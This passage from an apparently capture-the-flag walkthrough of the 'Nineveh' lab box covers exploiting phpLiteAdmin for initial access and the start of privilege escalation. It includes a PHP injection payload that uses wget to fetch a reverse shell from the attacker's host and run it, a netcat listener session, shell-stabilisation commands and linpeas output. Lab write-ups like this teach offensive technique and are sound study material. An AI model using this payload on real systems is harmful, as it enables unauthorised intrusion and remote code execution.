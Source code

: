 Navigating to https://nineveh.htb/db, we are able to find a phpliteadmin page, and searching for exploits of phpliteadmin, we are able to find a remote PHP Code Injection. However to exploit this, we would first need to login the database.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit phpliteadmin              
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                       | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection             | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities              | php/webapps/39714.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Let's first create a database named ninevehNotes.php. Afterwards, we will create a table in the database and put ```<?php system("wget http://10.10.16.4:3000/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>``` into every field. This will then download the php reverse shell from our local machine and save it to /tmp directory on the server. Afterwards, we will then execute the php reverse shell payload and obtain a reverse shell.

### Privilege Escalation to amrois

First, let's stabilize the reverse shell.
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.43] 43988
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 23:09:42 up  2:16,  0 users,  load average: 0.04, 0.06, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@nineveh:/$ export TERM=xterm
export TERM=xterm
www-data@nineveh:/$ stty cols 132 rows 34
stty cols 132 rows 34
```

However, we realize that we still do not have the necessary privileges to read the user flag. Hence, we would need to try to escalate our privileges to the user amoris.

Using linpeas script, we are able to identify a few interesting information. First of all, port 22 is open on the server so this must mean that we should be able to SSH into the amoris user

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```
Apart from that, we are also able to find a knockd file, which means that we probably have to use port knocking to be able to SSH.
